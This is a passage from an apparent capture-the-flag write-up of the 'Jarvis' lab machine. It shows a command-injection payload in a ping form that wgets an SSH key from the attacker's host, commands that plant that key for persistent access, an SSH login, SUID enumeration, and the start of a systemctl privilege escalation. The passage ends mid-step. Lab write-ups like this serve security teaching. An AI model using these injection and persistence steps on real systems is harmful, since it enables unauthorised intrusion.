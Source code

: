 We notice the `exec_ping` function calling `os.system()`. As there is forbidden
character we cannot simply execute a second command (with a `;` or a `&&`).
Nevertheless we can try to ping the result of a command with the following
`$(<command>)`.
We mount a python web server with our ssh public key renamed `authorized\_keys` and
download it from the box:

    :::text
    Enter an IP: $(wget 10.10.15.31:8080/authorized_keys)

We then create the `.ssh` folder in pepper home and move the key:

    :::text
    Enter an IP: $(mkdir /home/pepper/.ssh)
    Enter an IP: $(mv authorized_keys /home/pepper/.ssh/)

We can then connect to the box with ssh and get the user flag:

    :::text
    ssh -lpepper 10.10.10.143
    Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64
    <SNIP>
    Last login: Thu Oct  3 09:38:52 2019 from 10.10.15.31
    pepper@jarvis:~$ cat user.txt 
    2afa36<redacted>

# Let's get root

We enumerate the box as always.
We found that the systemctl binary is SUID.

    :::text
    pepper@jarvis:~$ find / -uid 0 -perm -4000 -type f 2>/dev/null
    /bin/fusermount
    /bin/mount
    /bin/ping
    /bin/systemctl
    /bin/umount
    /bin/su
    /usr/bin/newgrp
    /usr/bin/passwd
    /usr/bin/gpasswd
    /usr/bin/chsh
    /usr/bin/sudo
    /usr/bin/chfn
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper

[GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid) show how
to exploit that misconfiguration.
First we create a temporary file:

    :::text
    pepper@jarvis:~$ TF=$(mktemp).service
